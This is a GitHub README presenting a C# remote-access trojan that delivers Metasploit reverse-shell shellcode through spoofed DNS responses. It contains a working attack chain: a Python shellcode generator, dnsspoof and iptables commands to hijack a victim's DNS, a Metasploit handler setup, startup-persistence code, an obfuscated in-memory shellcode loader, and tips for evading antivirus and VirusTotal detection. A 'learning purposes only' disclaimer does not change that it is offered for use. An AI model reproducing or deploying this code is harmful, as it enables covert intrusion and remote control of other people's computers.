







<div align="center">

<sup>Special thanks my followers for supporting me:</sup>

<div>

</div>
<b>
RArAtikTdkA is a modern, c#-based malware with great undetectable techniques so you and your team
can build great software, faster.
</b>
<div>
<sup>Visit <u>warp.dev</u> to learn more.</sup>
</div>

<hr />

# RArAtikTdkA

<a href="">[](https://github.com/PanagiotisDrakatos/RArAtikTdkA/)</a>
<a href=""></a>
<a href=""></a>
<a href=""></a>
<a href=""></a>
<a href=""></a>
<a href=""></a>
<a href=""></a>
<a href=""></a>
<a href=""></a>
<a href="">[](https://github.com/PanagiotisDrakatos/RArAtikTdkA/pulls)</a>
<a href=""></a>
<a href=""></a>
<a href=""></a>
<a href="">[]()</a>
<a href=""></a>
<a href="">[](https://github.com/PanagiotisDrakatos/RArAtikTdkA/blob/master/LICENSE)</a>

RArAtikTdkA is a **smarter rat library**, inspired by Pony/Loki Fareit and Artemis.
<br>
The key thing that makes it unique is that hides the reverse shell code in the C&C server thus AV cant not be able to
reverse. Hence the app is being created as a legitimate process by sending DNS queries and getting response DNS spoofed
packets which include the reverse shellcode. RArAtikTdkA is able to copy payload data
from managed Codes AREA  ( byte[] X_Final ) to unmanaged codes AREA
(UInt32 funcAddr) by (Marshal.Copy)
<br />
RArAtikTdkA works on all major shells like msfconsole.

[Getting started](#Getting-started) •
[Disucssion](#Disucssion) •
[Server Installation](#Server-Installation) •
[Client Installation](#Client-Installation)  •
[Support](#Support)  •

</div>

## Table of Contents

- [Getting started](#Getting-started)
- [IMPORTANT!!](#IMPORTANT!!)
- [Discussion](#Discussion)
- [Why is the DNS protocol used?](#Why-is-the-DNS-protocol-used?)
- [Where is Vulnerability point in this case?](#Where-is-Vulnerability-point-in-this-case?)
- [Splitting Payloads values in Records!](#Splitting-Payloads-values-in-Records!)
- [Pre Installation](#Pre-Installation)
- [Server Installation](#Server-Installation)
    - [Python](#Python)
    - [Spoofing Attack](#Spoofing-Attack)
    - [Setup the Metasploit Handler](#Setup-the-Metasploit-Handler)
- [Client Installation](#Client-Installation)
    - [Tutorial](#Tutorial)
    - [Client Discussion](#Client-Discussion)
    - [More techniques to Bypass AV](#More-techniques-to-Bypass-AV)
- [Q&A](#Q&A)
- [Features](#Features)
- [Future Features To Add](#Future-Features-To-Add)
- [Contributing](#Contributing)
  [Support](#Support)
- [Note](#Note)
- [Credits](#Credits)
- [Authors](#Authors)
- [License](#License)
## Getting started





## IMPORTANT!!

- I do not support any type of malicious activity with my code, nor take any responsibility  for any damage caused by it.
  Use at your own risk.
- For learning purposes only
- Don't upload any of the code like ```.exe``` or ```.dll``` on Virus total because VT operates as honeypot and then the
  signature of malware will be pwned
- The software is provided “as is”, without warranty of any kind, express or implied,
  including but not limited to the warranties of merchantability, fitness for a particular
  purpose and noninfringement. in no event shall the authors or copyright holders be liable
  for any claim, damages or other liability, whether in an action of contract, tort or
  otherwise, arising from, out of or in connection with the software or the use or other
  dealings in the software

## Discussion

In this technique we simply use DNS protocol for Transfer  backdoor Payloads from
attacker computer to Client computer so in this case we need one backdoor code without
hard-coded payload or Encrypted Payload. Therefore risk for detecting by Anti-virus is very
low in this case.

### Why is the DNS protocol used?

Because most networks allow DNS traffic to flow without being monitored or filtered by
IPS/IDS or hardware firewalls, and while it is possible to check DNS traffic using tools
like SNORT IPS/IDS, it can be challenging for network administrators to identify new
payloads in DNS traffic using signatures. In this repository, i want to show you how to 
disguise your payloads using DNS Request/Response over Network.

### Where is Vulnerability point in this case?

If you wish to use payloads that aren't encrypted or that are hard-coded in your
backdoor file, you'll need to transfer them over a network from your system to the
target computer using a protocol like http and DNS, or something similar. In this case,
we want to transfer these payloads over DNS traffic and also run them in the target
computer's memory, so the payload location and antivirus software's methods for detecting
malware are the vulnerabilities. Since file systems do not include payloads in this
instance, network traffic and payloads in memory are what we have.

Unfortunately, most antivirus programs, whether they have IPS/IDS functions or not,
do not always support Network Traffic Monitoring and Memory Monitoring/Scanning by AVs
for the purpose of detecting malware code.

### Splitting Payloads values in Records!

Splitting your payloads into DNS Records of the same kind, such as PTR or other sorts, is an excellent approach to accomplish this. You can
also encrypt your payloads and then use these protocols. Your goal network and you will
determine this.

Example below shows you that I have five records for splitting a single payload—in this
example, Line 1 of the Meterpreter payload. As a result, the payloads for these records and this record are the same.
1.1.1.0

```1.0.1.0 + 1.0.1.1 + 1.0.1.2 + 1.0.1.3 + 1.0.1.4 = 1.1.1.0, for instance```

You can use a variety of tools or techniques to obtain this information from a
fake DNS server on the client side, but I prefer to utilize the NSLOOKUP command
prompt via backdoor since I find it to be highly user-friendly.

## Pre Installation

In this post I will show you how to get a meterpreter session on a Windows box with C#.
This guide assumes that you have a Kali Linux VM and a Windows 7 VM, additionally a method
to get the malware on to the remote Windows PC. I will walk you through the process of
exploitation and how the code works. I will also show you how to setup Metasploit to get a
reverse shell. In addition I will discuss how to add functionality to your C# malware and run
it as a Windows Service!!!!. So lets begin!!!

## Server Installation

### Python
The first part we should do as the first operation is to create the reverse shellcode.
Shellcode is a list of opcodes (operation codes) that are executed by the CPU when injected
into a process. Op codes are instructions from machine language that instruct the CPU on
what operations to perform. Shellcode enables the attacker to perform a set of tasks with
the smallest amount of code. As we talked later we give extra protection by encryption the
shellcodes and saving the encrypted data in dns.txt and all pieces of that information
are hidden in the server and not in the client part so to bypass AV from detections.
Additionally, we use DNS to create a more legitime process than using socket and get
caught from suspicious TCP networking.

The dns.txt file will serve as DNS server where the victim will perform nslookup on fake ips and it will resolve fake
domains
from dnsspoof packets. Dnsspoof forges replies to arbitrary DNS address/pointer queries
on the LAN. This is useful in bypassing hostname-based access controls, or in implementing
a variety of man-in-the-middle attacks. The fake domain results are the encrypted shellcode
data as shown in the following image



We automate this process with a Python script to make things more easily. Here you can find the main source code of the
script.

```python
from Payload import Payload
from Cipher import AESCipher
from Storage import FileData;
import argparse
import math


parser = argparse.ArgumentParser()
parser.add_argument('--lhost', required=True, help='Connectback IP')
parser.add_argument('--lport', required=True, help='Connectback Port')
parser.add_argument('--passphrase', required=True, help='passphrase')
parser.add_argument('--filepath', required=True, help='filepath')
parser.add_argument('--msfroot', default='/usr/share/metasploit-framework')
args = parser.parse_args()
strshell = Payload._create_shellcode(args)
count = 0
prefix = 0
obj = FileData(args.filepath)
cipher = AESCipher(args.passphrase)
for line in strshell.splitlines():
    broken = line.split(',')
    lens = len(broken)
    size = math.ceil((lens / 4))
    if size == 1:
        toWrite = ''
        for i in range(len(broken)):
            toWrite = toWrite + broken[i]
        obj.write(str(prefix), str(count), cipher.encrypt(toWrite))
        count = count + 1
    else:
        start = 0
        end = 4
        for i in range(0, size):
            toWrite = ''
            for j in range(start, end):
                toWrite = toWrite + broken[j]
            if count == 255:
                count = 0
                prefix = 1

            obj.write(str(prefix), str(count), cipher.encrypt(toWrite))
            count = count + 1
            start = start + 4
            if end + 4 > lens:
                end = lens
            else:
                end = end + 4
```

- Navigate into the path into ```Generator.py```
- First, install the required libraries by running
   - ```pip install -r requeriments.txt```
- Run ```ip``` a on the Kali Linux box to find it’s IP address.
- Run
    - ```Generator.py --lhost <kali linux IP> --lport <kali linux PORT> --passphrase <PASSWORD> --filepath <DNS OUTPUTPATH>```
    - ```Generator.py --lhost 192.168.1.105 --lport 5555 --passphrase my_key --filepath /home/panos/Desktop/dns.txt```

As you can see, we give as parameters the attack Kali Linux machine the IP the port, the passphrase key to encrypt the
data, and finally the path where the output DNS file will be created

## Spoofing-Attack

Our next job now is to perform DNS spoof attack for that reason we use dnsspoof tools. dnsspoof
is a popular tool used for DNS spoofing attacks. It's part of the Dsniff suite and allows
attackers to forge replies to arbitrary DNS address and pointer queries on the local
network. It is s designed to intercept and respond to DNS queries based on entries in a
fake host file. By providing false DNS responses, attackers can redirect network traffic
to arbitrary destinations, potentially leading to phishing attacks, malware distribution,
or other malicious activities.

Create a fake dns host file with the previous python script where we are going to spoof. Each line should contain an IP address
followed by a domain name. For example:

```
10.0.0.0 bBs7JaQjyZu8e+wjDYpQ5c1uRsd8raQKNROEFQC2tco=.com
10.0.0.1 QghClBp22MwZ71YUsJTgQranFIA3SWaEMNi3m7lTBu4=.com
```

Open a terminal and run dnsspoof with the following command:

  - ```dnsspoof -i eth0 -f dns.txt```


This command tells dnsspoof to use the ```fake_hosts.txt``` file for DNS spoofing on ```eth0```. All DNS
requests for ```bBs7JaQjyZu8e+wjDYpQ5c1uRsd8raQKNROEFQC2tco=.com``` on the local network will
now be redirected to the IP addresses ```10.0.0.0```, respectively.

Once dnsspoof is running, it will display DNS queries it intercepts and the forged
responses it sends. We monitor this output to see which devices on the network are
making DNS requests and how they are being redirected. Lets dive into this!

Open a terminal in the victim machine and check if the DNS spoof is working by running
nslookup. In the majority of cases, the result should get a response like this:

```
Server:  UnKnown
Address:  192.168.1.105

Name:    BnTI1Rkq3mWdNzjHMRfITug5gFDvccnbvSGJSLFyXPU=.com
Address:  10.0.0.0
```

But there are possibilities the attack will fail and let's discuss how to overcome it
and bypass failures.

No matter the failures if your virtual machine is on the same network with **bridged** functionality and no **NAT** the they
will successfully send the request to the attacker machine like the following:

```
DNS spoof: listening on eth0 [udp dst port 53 and not src 192.168.1.105]
192.168.1.106.49792 > 192.168.1.105.53:  2+ PTR? 1.0.0.10.in-addr.arpa
```

Here we observe that the victim 192.168.1.106 sent a request to the attacker and received
a response from the attacker machine 192.168.1.105. Let's observe better what happened
with the best sniffer wireshark.

From the following wireshark snapshot we can observe that we sent correctly
from 192.168.1.106 the fake IP to search and then we received from attacker
192.168.1.105 the fake dnspoof packet with a fake domain so the process is made success.



There are possibilities that the nslookup will be buggy and his legitimate response may be faster than
the fake spoofed packet and return response that the domain not existing. For that reason, we can
use the options ```timeout``` and ```retry``` like below:

```nslookup -timeout=4 -retry=2 10.0.0.0 192.168.1.105```

Finally, there is a last possibility that even with timeout and retry options we are
getting a fail response.
```*** UnKnown can't find 10.0.0.0: Non-existent domain```

The culprit in that case is that we maybe receive firstly the valid and legitimate DNS packets from
the correct DNS resolution and secondly, the spoofed DNS packets, thus the lookup will be failed.
Dnsspoof can't modify DNS packet, it can only send another prepared packet with spoofed
address. But the real packet comes to victim as first and victim's computer take into
consideration only the first not latter. Let's dive into an example to see how to overcome
it.

Assuming DNS host file is spoofhosts.txt is this:

- ``1173.252.74.22  google.co.in``1

Let's take look at this wireshark snapshot:



We have observed in Wireshark at the victim system. It gives us the spoofed information
correctly which is the third line where you can see the correct 173.252.74.22 address but
see in the second line that we are getting the response directly from the router with a
valid Google IP. Hence, we have observed that the DNS response is coming from the router
faster than us and thus the spoofed lookup failed even we observe it as received in wirehsark.

In order to overcome it the solution is to use a firewall like iptables to specifically
block the real packet. I made this using iptables with specific addresses in hex:(You only
need to replace the hex sting with your victim hex address).

```sudo iptables --append FORWARD --match string --algo kmp --hex-string '|c0 a8 01 6d|' --jump DROP```

*Attention!!! if you are using a firewall like ```ufw``` and ```iptables``` make sure you
open the required ports ```udp 53``` from dnspoof and the ```<kali linux IP>``` for shell code else the attack will fail

### Setup the Metasploit Handler

First you may be asking, what is a handler? A reverse shell (also known as a connect-back)
is a listener on your local Kali Linux box that your malware calls back to. This requires
you(attacker) to set up a listener first, the target machine acts as a client connecting to
that listener, and as discussed above the attacker receives the shell.

- Accept only on reverse_tcp connection
    - Open a terminal
    - msfconsole
    - use exploit/multi/handler
        - set PAYLOAD windows/meterpreter/reverse_tcp
        - set LHOST <IP Address of Kali Linux>
        - set PORT 1337
    - show options to confirm settings
    - 
    - exploit
    - 

## Client-Installation

### Tutorial

Now let's talk for the client side and dive into more details before executing the program.
Firstly, navigate to this ```Form1.cs``` file and make sure you comment  this piece code if you
don't want the program to run on startup.

```C#
  String hiddenpath = System.Reflection.Assembly.GetExecutingAssembly().Location;
  FileInfo f = new FileInfo(hiddenpath);
  f.Attributes = FileAttributes.Hidden;
  if (StartUpManager.IsUserAdministrator())
  {
      String b = StartUpManager.checkExistanceFromAllUserStartup();
      if (b == null)
      {
          StartUpManager.AddApplicationToAllUserStartup(hiddenpath);
      }
  }
  else
  {
      String b = StartUpManager.checkExistanceFromCurrentUserStartup();
      if (b == null)
      {
          StartUpManager.AddApplicationToCurrentUserStartup(hiddenpath);
      }
  }
 ```

To continue in the same file change these variables based on your settings.

```C#
public static string AES_KEY = "my_key";

public static string DNS_PREFIX = "10.0.";

public static string DNS_SPOOF_ADDRESS = "192.168.1.105";
```

```AES_KEY``` should be equal to the python script passphrase that we gave before.
```DNS_SPOOF_ADDRESS``` should be equal with the attacker kali-linux VM machine, finally,
no need to change ```DNS_PREFIX```.

As you can see in below code we have some code for API Programming and ```[DllImport("kernel32")]```. 
If you want to use some Windows API Function (Unmanaged Codes) in your C# Codes 
(Managed Codes) then you need the first function line. with these line we can call the
unmanaged API Function ```(VirtualAlloc, CreateThread, WaitForSingleObject)```.
```C# 
namespace RArAtiTdkA;

using System;
using System.Runtime.InteropServices;

public static class dGVzdAo

{
    [DllImport("kernel32")]
    public static extern UInt32 VirtualAlloc(UInt32 bHBTdGFydEFkZHI, UInt32 c2l6ZQ, UInt32 Y2F0aW9uVHlwZQ, UInt32 ZmxQcm9);

    [DllImport("kernel32")]
    public static extern IntPtr CreateThread(UInt32 RyaWJ1dGVz, UInt32 BUaHJlYR, UInt32 ydEFkZH,IntPtr GFyYW, UInt32 ZsYWdz, ref UInt32 bHBUaHJlY);

    [DllImport("kernel32")]
    public static extern UInt32 WaitForSingleObject(IntPtr aEhhbmRs, UInt32 YWRJZA);


    public static UInt32 bWRzdA = 0x1000;

    public static UInt32 ZGRy = 0x40;

    public static UInt32 VA(this UInt32 YXI, byte[] cHBkc2Y)

    {
        System.Threading.Thread.Sleep(10000);

        UInt32 ZnJ0 = VirtualAlloc(0, (UInt32)cHBkc2Y.Length, bWRzdA, ZGRy);

        System.Threading.Thread.Sleep(10000);


        return ZnJ0;
    }

    public static void CPY(this UInt32 YnJ0eQ, byte[] IHNyYw, IntPtr ZGVz)

    {
        System.Threading.Thread.Sleep(5000);

        Marshal.Copy(IHNyYw, 0, (IntPtr)(ZGVz), IHNyYw.Length);
    }

    public static IntPtr CT(this UInt32 c, UInt32 c3RhZGQ, IntPtr eGU, UInt32 cmZn)

    {
        IntPtr hThread = CreateThread(0, 0, c3RhZGQ, eGU, 0, ref cmZn);

        System.Threading.Thread.Sleep(3000);

        return hThread;
    }

    public static uint WSO(this UInt32 d, IntPtr aG4)

    {
        System.Threading.Thread.Sleep(5000);

        return WaitForSingleObject(aG4, 0xFFFFFFFF);
    }


    public class rOMcboO
    {
        public static void OQLRioRzeo(byte[] cGF5bG8)
        {
            if (cGF5bG8 != null)
            {
                UInt32 ZnVuY0FkZHIy = 1;

                UInt32 dHJ1bmNBZ = ZnVuY0FkZHIy.VA(cGF5bG8);


                System.Threading.Thread.Sleep(2000);

                Convert.ToUInt32("2").CPY(cGF5bG8, (IntPtr)(dHJ1bmNBZ));

                System.Threading.Thread.Sleep(2000);

                UInt32 tId = 0;

                System.Threading.Thread.Sleep(2000);

                IntPtr pin = IntPtr.Zero;


                System.Threading.Thread.Sleep(2000);

                Console.WriteLine("Bingo: X session created with sucess ;)");

                ZnVuY0FkZHIy.WSO(Convert.ToUInt32("3").CT(dHJ1bmNBZ, pin, tId));

                System.Threading.Thread.Sleep(1000);
            }
        }
    }
}
```
### Client Discussion
If I must to explain these lines of code shortly then i need to say this: with this 
code you will Allocate memory Space in current Process for your Meterpreter Payload 
then your code will copy Payload DATA from Managed Codes AREA  ```(byte[] X_Final)``` to 
Unmanaged Codes AREA ```(UInt32 funcAddr)``` by ```(Marshal.Copy)``` finally your code will
make New Thread by ```(CreateThread )``` in your Current Process also Executing that and 
waiting for Response from your New thread by ```(WaitForSingleObject(hThread, 0xffffffff))```.
Let's dive into more details.

```C#
0.  UInt32 MEM_COMMIT = 0x1000;
1.  UInt32 PAGE_EXECUTE_READWRITE = 0x40;
2.  UInt32 funcAddr = VirtualAlloc(0x0000, (UInt32)X_Final.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
3.  Marshal.Copy(X_Final, 0x0000, (IntPtr)(funcAddr), X_Final.Length); 
4.  IntPtr hThread = IntPtr.Zero;
5.  UInt32 threadId = 0x0000;
6.  IntPtr pinfo = IntPtr.Zero;
7.  hThread = CreateThread(0x0000, 0x0000, funcAddr, pinfo, 0x0000, ref threadId);
8.  WaitForSingleObject(hThread, 0xffffffff);
```
Look at the beauty of this code. This is the magic trick that hide the shellcode bytes in 
unmanaged memory from ```kernel32``` legitimate process. You can set the type of memory allocation 
by using these codes in Lines 0 and 1. In this situation, we need 1000 and 40 by type UInt32.  Code in line number three commits 
the virtual address space by length ```(UInt32)X_Final``` for the running process. Length 
with address 0 at start as well. Your DATA in your Meterpreter Payload Variable in 
this case (X_Final) will be copied to Unmanaged Code AREA ```(funcAddr)```. Finnally, we 
need to copy bytes from managed to unmanaged area with ```(Marshal.Copy)```. This indicates that 
your Meterpreter  payload from.NET code will copy to Unmanaged Code to Executing by new Threads.

Finally by ```(CreateThread)``` in line 7 you will make one New Thread into Current Process with 
Meterpreter Payload by Pointer for Executing Functions in your Meterpreter PAYLOAD and
with ```(WaitForSingleObject)``` you will waiting for Executing Result from New Thread.

## More techniques to Bypass AV
The well-known problem that arises now is how we can bypass AV is the previous technique enough? 
The answer is NO! it's not enough AV can detect the signature of unmanaged code 
in the lines above and some of them may trigger it as malware so we need to 
overthink and produce more undetectable code.

Since some antivirus programs will detect lines 2 and 7, we should need to modify our 
C# source code to create a new signature in this situation. If you wish to utilize 
these codes in your own code, be aware that some antivirus programs will detect 
them as malware. For example, lines 2, 3, 7, and 8 are considered "important" by 
some antivirus programs, such as "AVAST," hence these programs have created signatures 
for these codes in their AV databases.

Note: Anti-virus software may detect your code if it contains lines 1 and 2, but if 
it contains lines 1 and 2 up to 7 and 8, it may have the same signature as malware 
and be detected by Avs.

Since some virus/malware codes employ these API calls (VirtualAlloc, CreatThread, and 
WaitForSingleObject) plus Marshal.copy in C#, some antivirus programs will identify 
this code 100% of the time.

Certain anti-virus programs will identify these lines in your "code/exe" file alone,
while other anti-virus programs—like ESET, Kaspersky, and others—won't find them in
your source code and will instead "scan" for malware in your new thread payload in memory,
which will identify your process if it contains malware. Since the new thread payload in 
this instance is the Meterpreter payload, ESET will detect it more frequently.

Our objective with this "RArAtikTdkA" Technique is to demonstrate how to get around 
antivirus programs that only concentrate on lines 1 through 8. Thus, we need consider 
lines 1 through 8 when using the Simple "X" Technique.

Finally, our new code would have the following lines which produce the exact same result
as the method we described above in lines 1-8. With such a way we hide more our malicious 
code when we call the unmanaged API.
```
1. UInt32 funcAddr = VirtualAlloc(0x00000000, (UInt32)payload.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

changed to

    UInt32 funcAddr2 = 1;

    UInt32 funcAddr1 = funcAddr2.VA(p);

2. Marshal.Copy(payload, 0x00000000, (IntPtr)(funcAddr), payload.Length);

changed to  

   Convert.ToUInt32("2").CPY(p, (IntPtr)(funcAddr1));

6. hThread = CreateThread(0x0000, 0x0000, funcAddr, pinfo, 0x0000, ref threadId);

7. WaitForSingleObject(hThread, 0xffffffff);

changed to funcAddr2.WSO(Convert.ToUInt32("3").CT(funcAddr1, pin, tId))
```
Microsoft explained C# “Extension Method” by something like this:
"By using extension methods, you can  methods to preexisting types without 
having to rebuild the original type, recompile it, or do any other changes. Although 
they are referred to as instance methods on the extended type, extension methods are 
actually a [special kind of static method]. Calling an extension method and the methods
that are defined in a type don't seem to differ for client code written in C#, F#, 
and Visual Basic. You [invoke] the extension method using instance method syntax in 
your code. That being said, your code is translated into a [call] on the static method
by the intermediate language (IL) that the compiler generates. Consequently, there isn't 
actually a violation of the encapsulation principle."

## Q&A
  - ### Is obfuscation worth it
    Client-side obfuscation and protection has the drawback that the attacker will 
    always prevail. In the end, he can intercept and manipulate everything because your 
    code is running on his PC. No. It is not worth obfuscating. Your apps will constantly be 
    detected as false positives by virus scanners if you obfuscate them. You'll have far 
    more headaches from this than from a few lost purchases.
    I can tell you as a developer that obfuscation is pointless. Things need to be 
    "deobfuscated" in order for the run time to execute the code, especially for things 
    like .NET where I am actually executing CLR code. In reality, all you're doing is 
    altering lovely variables like posts = posts + 1 to, ultimately, something like x=x+1.
    It won't slow you down if you're already accustomed to viewing the decompiled byte-code 
    with amusing variable and function names. Proceeded
  - ### Should i use VirusTotal
    if you upload your novel code to VT is the same as burning it because IT acts as a honeypot.
    Vendors have the ability to extract anything they want via the VT API, either 
    automatically or manually, albeit the first VT analysis is restricted. As I understand 
    it, this is quite normal practice across the board. I worked with a vendor that is 
    listed on VT, and we were automatically taking in samples with specified signs to 
    process them further. Which samples go to be further scanned are determined by 
    suspicious indicators, and if it is determined that the samples are malicious, 
    definitions are generated based on the findings. Because it takes time to process, 
    it may pop a 0 on the initial scan and show results a day later. Virus Total uses 
    sigs to function; to create a new sig that VT has never seen, write code. You scan it,
    and VT can now identify the malware because it has a sig for it. To test it, if you'd 
    want Put a well-known antivirus program on a virtualized test system, explode malware 
    offline to prevent the agent from phoning home, then repeat the process with other 
    AV programs
  - ### Do i need to sign the .exe .dll
    AV or firewall software won't notice any differences in your program. If you have 
    already signed your executable, they will look for further signatures. The best 
    practice for signing your DLLs is to double-check them before loading them. This 
    guarantees every DLL's integrity during runtime. Signing all of the binaries you ship 
    and verifying their signatures during runtime is advised as best security practice. 
    You must sign your DLLs if you want other products to utilize them; otherwise, they 
    will want to confirm their integrity and authenticity.


## Features

- 🚀 Auto Updater List
- 🌠 +1500 VM List Blocked
- ⚡ Anti-VM (RDP, VirtualBox, etc)
- 🌟 Filters: MAC, HWID, IP, NAME, GPU, GUIDS, BIOS, AND DLL!

## Future Features To Add

- Bypassing signature-based detection
- Static detection bypass
- Bypassing heuristic and behavioural detection
- Obfuscating the Import Address Table
- AMSI bypass: patching technique
- ETW bypass: patching technique
- Bypassing API hooking

## Contributing

Contributions are always welcome! The majority of RArAtikTdkA code is open-source. We are committed to a transparent
development process and highly appreciate any contributions. Whether you are helping us fix bugs, proposing new
features, improving our documentation or spreading the word - we would love to have you as a part of the RArAtikTdkA
community. Please refer to our [contribution guidelines](./CONTRIBUTING.md) and [code of conduct](./CODE_OF_CONDUCT.md).

- Bug Report: If you see an error message or encounter an issue while using RArAtikTdkA, please create
  a [bug report](https://github.com/PanagiotisDrakatos/RArAtikTdkA/issues/new?assignees=&labels=type%3A+bug&template=bug.yaml&title=%F0%9F%90%9B+Bug+Report%3A+).

- Feature Request: If you have an idea or if there is a capability that is missing and would make development easier and
  more robust, please submit
  a [feature request](https://github.com/PanagiotisDrakatos/RArAtikTdkA/issues/new?assignees=&labels=type%3A+feature+request&template=feature.yml).

- Documentation Request: If you're reading the RArAtikTdkA docs and feel like you're missing something, please submit
